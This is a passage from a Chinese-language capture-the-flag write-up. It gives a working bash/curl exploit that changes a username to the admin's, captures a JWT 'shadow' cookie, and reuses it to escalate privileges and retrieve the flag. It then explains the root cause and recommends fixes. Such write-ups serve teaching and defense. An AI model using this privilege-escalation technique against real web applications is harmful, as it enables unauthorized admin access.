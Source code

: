 ```bash
curl -s -i -c "$JAR" -b "$JAR" -X POST "$BASE/change-username" -H 'Content-Type: application/x-www-form-urlencoded' --data "newUsername=$ADMIN" >/dev/null
SHADOW=$(curl -s -D - -o /dev/null -c "$JAR" -b "$JAR" -X POST "$BASE/login" -H 'Content-Type: application/x-www-form-urlencoded' --data "username=$ADMIN&password=$P" | awk -F': ' '/^Set-Cookie: shadow=/{print $2}' | sed -E 's/;.*//' | sed 's/^shadow=//')
[ -z "$SHADOW" ] && { echo '[-] capture shadow failed'; exit 2; }

echo "[+] shadow.len = ${#SHADOW}"

# 再改回任意名，随后仅带保存的 shadow 访问 /flag
curl -s -i -c "$JAR" -b "$JAR" -X POST "$BASE/change-username" -H 'Content-Type: application/x-www-form-urlencoded' --data "newUsername=q$RANDOM$RANDOM" >/dev/null
HTML=$(curl -s -H "Cookie: shadow=$SHADOW" "$BASE/flag")
FLAG=$(printf '%s' "$HTML" | sed -n 's/.*\(skbdg{[^}]*}\).*/\1/p')
[ -n "$FLAG" ] && echo "[+] FLAG: $FLAG" || { echo '[-] flag not found'; echo "$HTML" | sed -n '1,80p'; exit 3; }
```

---

### 六、为何可行（时序要点）

- 第一次以 UUID 登录获得的 `shadow` token，`sub` 固定为该 UUID；
- 后续即使把自己的用户名改走，数据库里“这个 UUID 名字”只剩真正管理员记录；
- 过滤器用 `sub` 去 DB 取“第一个同名用户” -> 此时获得的是管理员对象及其 `ROLE_ADMIN`，成功越权。

---

### 七、修复建议

- 为 `UserAccount.username` 添加唯一约束，并在修改用户名处校验重名，禁止产生“同名用户”。
- JWT `sub` 建议使用用户不可变的主键（如 `id`/UUID），不要使用可变的 `username`。
- 认证时应校验 JWT 的 `sub` 与当前会话用户的一致性，避免“旧 token 冒充最新同名用户”。
- 如果要使用 JWT 中的 `role`，需要与数据库实时状态进行核对（或在变更关键属性时强制失效旧 token）。
- `loadUserByUsername` 不应返回 List 的“第一个”，应保证唯一性或显式按创建时间/主键排序并拒绝重名。

---

### 八、最终结果

- 复现成功，拿到 FLAG：

```text
skbdg{i_am_th3_ultimat3_lif3form_woof!}
```

---

### 九、附注

- H2 Console 虽开但禁止远程，无法作为突破口；题目核心在于业务逻辑与鉴权模型的错配。
- 题面 Kotlin 提示不影响利用；Java 源码即足以完成分析与攻击。
